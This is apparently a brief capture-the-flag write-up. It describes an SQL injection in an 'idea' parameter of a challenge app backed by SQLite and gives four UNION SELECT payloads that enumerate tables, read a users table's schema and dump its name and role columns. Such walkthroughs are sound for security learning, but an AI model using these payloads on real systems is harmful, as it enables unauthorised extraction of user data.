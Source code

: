 - after registration you will find sql injection in idea parameter
- after some searching you will find that the database type is sqlite
```
') union select 'zz', (SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),'' -- 
```
```
') union select 'zz', (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='xde43_users'),'' -- 
```
```
') union select 'zz', (SELECT group_concat(name,'~~') from xde43_users),'' -- 
```
```
') union select 'zz', (SELECT group_concat(role,'~~') from xde43_users),'' -- 
```
